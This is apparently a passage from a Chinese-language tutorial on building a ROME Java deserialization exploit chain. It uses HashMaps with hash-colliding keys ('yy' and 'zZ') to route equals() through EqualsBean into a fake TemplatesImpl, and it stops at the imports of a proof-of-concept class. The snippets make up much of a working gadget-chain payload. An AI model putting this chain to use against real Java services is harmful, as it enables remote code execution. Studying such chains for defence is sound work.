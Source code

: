 可见这个AbstractMap.equals是用来检查两个map是否相同的

我们构造两个hashMap，使value = equalsBean，m.get(key) = fakeTemplates，就能实现利用链，注意put的先后顺序。先put的作为参数o（m），后put的作为i。且m.get(key)是返回value

```java
HashMap hashMap = new HashMap();
HashMap hashMap1 = new HashMap();
HashMap hashMap2 = new HashMap();
hashMap1.put(1, fakeTemplates);
hashMap2.put(1, equalsBean);
hashMap.put(hashMap1, "godown");
hashMap.put(hashMap2, "godown");
```

那怎么走进else呢，我们构造两个看上去相同的hashMap，这样可以吗

```java
HashMap hashMap = new HashMap();
HashMap hashMap1 = new HashMap();
HashMap hashMap2 = new HashMap();
hashMap1.put(1, fakeTemplates);
hashMap1.put(1, equalsBean);
hashMap2.put(1, fakeTemplates);
hashMap2.put(1, equalsBean);
hashMap.put(hashMap1, "godown");
hashMap.put(hashMap2, "godown");
```

答案是不行，因为两次相同的put会刷新值，导致只存在(1, equalsBean)

```javA
hashMap1.put(1, fakeTemplates);
hashMap1.put(1, equalsBean);
```

需要有两个hash值相同的，但是本身不同的作为key，"yy"的hash值等于"zZ"，于是：

```java
HashSet hashSet = new HashSet();
HashMap hashMap1 = new HashMap();
HashMap hashMap2 = new HashMap();
hashMap1.put("zZ", fakeTemplates);
hashMap1.put("yy", equalsBean);
hashMap2.put("zZ", equalsBean);
hashMap2.put("yy", fakeTemplates);
hashSet.add(hashMap1);
hashSet.add(hashMap2);
```

HashSet POC：（HashSet可改为HashMap）

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.shiro.crypto.hash.Hash;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;


```